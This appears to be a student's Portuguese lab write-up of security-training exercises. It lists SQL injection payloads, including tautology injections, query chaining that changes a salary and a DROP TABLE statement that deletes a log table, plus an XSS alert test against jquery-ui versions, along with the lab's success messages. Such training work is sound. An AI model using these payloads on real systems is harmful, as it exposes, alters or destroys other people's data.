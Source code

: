 ### Injection

#### Pergunta 1.1-SQL Injection

##### 2

Retornar o departamento do empregado Bob Franco.

Para tal utilizou se a Query: `SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'`

Resultado obtido : Departamento de marketing.

##### 3

Alterar o departamento do empregado Tobi Barnett para 'Sales'.

Para tal utilizou se a Query: `UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'`

Resultado obtido : 89762 Tobi Barnett Sales 77000 TA9LL

##### 4

Adicionar a coluna "phone" na tabela "employees".

Para tal utilizou se a Query: `ALTER TABLE Employees ADD phone varchar(20)`

Resultado obtido :

##### 5

Dar permissões a um determinado grupo de utilizadores.

Para tal utilizou se a Query: `GRANT ALTER TABLE TO 'UnauthorizedUser'`

Resultado obtido :

##### 9-String Sql Injection

Devolver todos os utilizadores da tabela onde os campos foram preenchidos por: 'Smith', 'or' e '1'='1'

Para tal utilizou se a Query: `SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'`

Resultado obtido : São obtidas todas as entradas da tabela pois 1=1 é uma verdade universal.

##### 10-Numeric Sql Injection

Neste passo retorna-se todos os dados da tabela 'users'. Como *User_Id* é sustetível a SQL Injection elaboramos a query
com Login_Count: 1 e User_Id: 1 or 1=1 como se pode observar em baixo.

Para tal utilizou se a Query: `SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1`

Resultado obtido : São obtidas todas as entradas da tabela pois 1=1 é uma verdade universal.

##### 11- Comprometer confidencialidade com String Sql Injection

Neste passo obtem-se todos os dados da tabela 'employees'.

Para tal utilizou se a Query: `SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""`

Resultado obtido :  "You have succeeded!You have successfully compromised the confidentiality of data by viewing internal 
information that you should not have access to. Well done!"

##### 12- Comprometer integridade com Query Chaining

Neste passo, demonstra-se, usando query chaining, como é possível alterar os salários.

Para tal utilizou se a Query: `1' or 1=1; update employees set salary=125000 where first_name='John' and
last_name='Smith';--`

Resultado obtido : "Well done!Now you are earning the most money.And at the same time you sucessfully compromised the integrity
of data by changing the salary!"

##### 13- Comprometer a disponibilidade

Neste passo pretende-se apagar os registos feitos pelo utilizador.

Para tal utilizou se a Query: `Smith'; DROP TABLE access_log;--`

Resultado obtido : Apaga a tabela e todos os dados dentro da mesma.

### XSS

#### Pergunta 1.2-XSS

###  Quebra na Autenticação

#### Pergunta 1.3-Password Reset

### Componentes vulneráveis

#### Pergunta 1.4-Vulnerable components

##### 5

Neste ponto usamos diferentes versões do jquery-ui : jquery-ui:1.10.2 e jquery-ui:1.12.2. Introduzimos o comando
`<script>alert('XSS')</script>` nas duas versões sendo na primeira executado e ,portanto, explorável. Na segunda versão não foi 
executado.

##### 12

Para este passo apenas foi adicionado o comando `<java.lang.Integer>96</java.lang.Integer>`.


